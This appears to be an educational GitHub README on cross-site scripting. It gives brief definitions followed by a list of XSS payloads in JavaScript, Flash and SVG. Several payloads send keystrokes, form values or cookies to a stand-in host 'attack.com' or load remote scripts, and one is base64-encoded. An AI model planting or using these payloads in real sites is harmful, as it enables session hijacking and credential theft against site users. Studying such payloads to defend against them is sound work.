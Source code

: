 <p align="center"><img align="center" width="500" height="500" src="./assets/Cross-site-scripting.gif"/></p>

# Cross-site Scripting
Before we start talking about Cross-site-scripting, I'd like to say that this repository is for educational purposes only, so that you can understand how this vulnerability works and how to avoid future problems with XSS.
### Web application
Basically, a web application is a piece of software that runs in a web browser, such as Chrome, Firefox etc. Why understand what a web application is? precisely because Cross-site-scripting (XSS) is caused by flaws in web applications themselves. Like Facebook, Olx etc. 

<code> You can learn more about web application here: https://aws.amazon.com/what-is/web-application/ </code>
### Vulnerability
Vulnerability is precisely a weakness in a web application that is exploited through bugs or the structure of the web application itself, if it has flaws, and it is in these flaws that people with malicious intentions can gain access to sensitive and important data.

<code>You can learn more about vulnerabilities here: https://owasp.org/www-community/vulnerabilities/.</code>
#### XSS
XSS is an injection attack frequently based on JavaScript, but it can also include HTML or any type of code that our browser can execute. They inject into a web application with the focus of being executed by other users. In this way, it can send malicious code to other people who may mistakenly click on a script that captures sensitive or important information. 


### Payloads
Payloads are basically Javascript codes that we can execute on target users' computers.

Examples of payloads with **JavaScript**:

```javascript
Basic Alert Payload:
<script>alert("XSS")</script>


Redirection Payload:
<script>
    window.location.href="http://attack.com"
</script>


Form Data Capture Payload:
<script>
    document.location="http://attack.com/logger.php?data=" +    
    document.getElementById("form_id").value 
</script>

Keylogger Payload:
<script>
    document.onkeypress=function(e){
        fetch("http://www.attack.com/logger.php?k="+ e.key);
    }
</script>

AJAX Command Execution Payload:
<script>
    fetch("http://www.attack.com/log.php?data="+
    document.cookie);
</script>

```

Examples of payloads with **Flash**:
```javascript

Javascript Execution Payload:
<object data="http://www.attack.com/flash.swf"></object>

Redirection Payload (inside a .swf file):
getURL("javascript:window.location.href='http://attack.com'");

Remote Code Execution Payload (inside a .swf file):
load("http://www.attack.com/exploit.js");

```
Example of payload with SVG:
```javascript
SVG Payload:
<svg onload="alert('XSS')"></svg>


Alert Execution Payload:
<svg xmlns="http://www.one.site.org/1999/svg" onload="alert('XSS')"></svg>


Malicious Image Inclusion Payload:
<svg xmlns="http://www.one.site.org/1999/svg">
<image xlink:href="http://www.attack.com/malicious-image.jpg"/>
</svg>


Script Inclusion Payload in Mouseover Event:
<svg xmlns="http://www.one.site.org/1999/svg" width="300" height="200">
    <rect width="100%" height="100%" fill="white"/>
    <script type="text/javascript">
        alert('XSS');
    </script>
</svg>


Text Script Inclusion Payload:
<svg xmlns="http://www.one.site.org/1999/svg">
    <text font-family="Arial" font-size="20" x="0"
     y="20" fill="red">
        SVG XSS Example
     </text>
    <script type="text/javascript">
        alert('XSS');
    </script>
</svg>


Script Inclusion Payload in Links (with base64):
<svg mlns="http://www.one.site.org/1999/svg" xmlns:xlink="http://www.one.site.org/1999/xlink">
<a xlink:href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="> 
    Click me
</a>
</svg>

```

